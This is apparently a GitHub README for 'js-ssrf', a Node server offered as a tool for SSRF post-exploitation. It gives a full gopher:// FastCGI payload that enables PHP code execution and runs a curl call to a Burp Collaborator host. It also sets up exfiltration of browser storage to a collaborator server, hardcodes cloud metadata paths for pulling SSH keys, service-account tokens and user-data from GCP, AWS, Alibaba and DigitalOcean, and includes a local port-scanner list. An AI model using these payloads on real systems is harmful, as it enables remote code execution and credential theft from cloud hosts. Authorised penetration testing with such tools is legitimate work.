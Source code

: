 # js-ssrf
Server prepared for SSRF post exploitation, javascript exploits, tools and open redirect.

*AFTER SSRF*

# Installation

```
git clone https://github.com/RafaelSantos025/js-ssrf.gi
cd js-ssrf/
npm install express
```

# How To Run

```
node server.js
```

## Available Exploits And Tools
* Browser Storage Leak
* Chrome Headless Debug Enabled
* Leak Browser Information (Plugins, versions, etc ...)
* Cloud Metadata Information
* Local Port Scanner
* Open redirect

# How To Use

## Open Redirect
Any request that starts with **/openredirect** will redirect to the passed URL in the **url** parameter with the given scheme and parameters. You can abuse of the **gopher://** scheme to get remote code execution.

**Redirect to Google Example:** http://127.0.0.1:2222/openredirect?url=https://www.google.com

**Exploit Fastcgi RCE example:** http://127.0.0.1:2222/openredirect?url=gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH108%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00l%04%00%3C%3Fphp%20system%28%27curl%20dm3lxhjmrekd2fwnsns1r1iin9t0hp.burpcollaborator.net%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

## Browser Storage Leak, Chrome Headless Debug Enabled, Leak Browser Information (Plugins, versions, etc ...), Cloud Metadata Information and Local Port Scanner

You need to edit the HTML page located at htmls/js-exploits.html (every request to the root page will trigger this HTML). 

#### Inportant: 
Edit the value of **collaboratorServer**  to your burp collaborator or log server, because this is how the server will retrieve the sensitive information.

```
//Collaborator server to receive info
var collaboratorServer = "ysu632p7xzqy8028y8ymxmo3tuzkn9.burpcollaborator.net";
```

If you don't have a log or burp collaborator server, this server has one in the **/log** path:

**Example:** http://127.0.0.1:2222/log?msg=LOGTHIS

**Server Log Output**:

```
Connection received: ::ffff:127.0.0.1
/log?msg=LOGTHIS
```

To use this server log you just need to edit the value of **collaboratorServer** to your IP address and port:

**Example (External IP):** 

```
//Collaborator server to receive info
var collaboratorServer = "208.12.33.44:2222";
```

#### JS Exploits and Tools
Uncomment the following lines that call the respective exploit function that you want:

```
//Browser Storage Leak
//localStorageLeak();

//Try to fetch Chrome Headless debug port
//chromeHeadless();

//Get browser information (Plugins, versions, etc ...)
//getBrowserInfo();

//GET Cloud metadata information
//cloudMetadata(googleMetadataServer, googleMetadataPaths, googleHeaders);

//Local port scanner
//portScanner("127.0.0.1", communPorts);
```

To help you, I already hardcoded some metadata servers and their paths to leak the desired information:

```
//Google Cloud
var googleMetadataServer = "metadata.google.internal";
var googleMetadataPaths = {"SSH-Keys: ": "/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json", "Service Accounts: ": "/computeMetadata/v1/instance/service-accounts/?recursive=true&alt=json", "Hostname: ": "/computeMetadata/v1/instance/hostname"}
var googleHeaders = {"X-Google-Metadata-Request": "true"}

//Alibaba Cloud
var alibabaMetadataServer = "100.100.100.200";
var alibabaMetadataPaths = {"SSH-Keys: ":"/latest/meta-data/public-keys/0/openssh-key", "Hostname: ": "/latest/meta-data/hostname", "User-Data: ": "/latest/user-data"};

//Amazon AWS & D.O
var othersMetadataServers = "169.254.169.254";

//Amazon
var amazonMetadataPaths = {"SSH-Keys: ": "/latest/meta-data/public-keys/0/openssh-key", "Hostname: ": "/latest/meta-data/public-hostname", "AMI-ID: ": "/latest/meta-data/ami-id"};

//Digital Ocean
var digitalOceanPaths = {"User-data": "/metadata/v1/user-data", "Hostname: ": "/metadata/v1/hostname", "SSH-Keys: ": "/metadata/v1/public-keys"}

//Local port scanner | Commun ports
var communPorts = [80, 81, 300, 443, 591, 593, 832, 981, 1010, 1311, 2082, 2087, 2095, 2096, 2480, 3000, 3128, 3333, 4243, 4567, 4711, 4712, 4993, 5000, 5104, 5108, 5800, 6543, 7000, 7396, 7474, 8000, 8001, 8008, 8014, 8042, 8069, 8080, 8081, 8088, 8090, 8091, 8118, 8123, 8172, 8222, 8243, 8280, 8281, 8333, 8443, 8500, 8834, 8880, 8888, 8983, 9000, 9043, 9060, 9080, 9090, 9091, 9200, 9443, 9800, 9981, 12443, 16080, 18091, 18092, 20720, 28017]
```
